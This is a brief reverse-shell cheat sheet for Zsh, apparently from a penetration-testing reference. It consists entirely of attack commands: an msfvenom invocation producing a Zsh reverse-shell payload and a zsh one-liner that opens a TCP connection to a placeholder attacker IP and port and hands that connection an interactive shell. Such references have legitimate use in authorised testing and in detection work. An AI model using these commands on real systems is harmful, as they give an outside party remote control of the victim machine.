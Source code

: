 # Zsh

## 01 - Generate via `msfvenom`

```
$ msfvenom -p cmd/unix/reverse_zsh lhost=<IP> lport=<PORT>
```

## 02 - One-liners

```
$ zsh -c 'zmodload zsh/net/tcp && ztcp <attacker_IP> <attacker_PORT> && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
```